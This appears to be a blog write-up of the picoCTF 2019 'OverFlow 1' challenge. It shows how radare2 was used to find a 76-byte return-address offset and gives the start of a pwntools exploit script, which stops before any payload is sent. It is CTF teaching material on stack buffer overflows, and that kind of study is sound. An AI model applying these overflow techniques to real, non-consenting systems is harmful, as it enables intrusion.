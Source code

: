 [Binary](/blog/picoctf-2019-writeup/binary-exploitation/OverFlow 1/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/OverFlow 1/vuln.c)

## Solution


Same as [buffer-overflow-1](/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-1) from last year. 

One thing to clarify is how I found the offset of the return address. In the case, I found the offset to be `0x48+4` or `76`. This is obtained by using a tool like radare2 and looking at the stack layout of the function:

```
$ r2 ./vuln
[0x080484d0]> aaaa
[0x080484d0]> afl~flag
0x080485e6    3 121          sym.flag
[0x080484d0]> pdf @ sym.vuln
/ (fcn) sym.vuln 63
|   sym.vuln ();
|           ; var char *s @ ebp-0x48
|           ; var int32_t var_4h @ ebp-0x4
```

As you can see, the buffer is located at `ebp-0x48` and we know there are another 4 bytes for the saved ebp register. That's how we can find the offset.

Another approach would be to use something like [this](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and deduce the offset by looking at the segfault address.


Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/overflow-1_2_305519bf80dcdebd46c8950854760999')
  REMOTE = True
```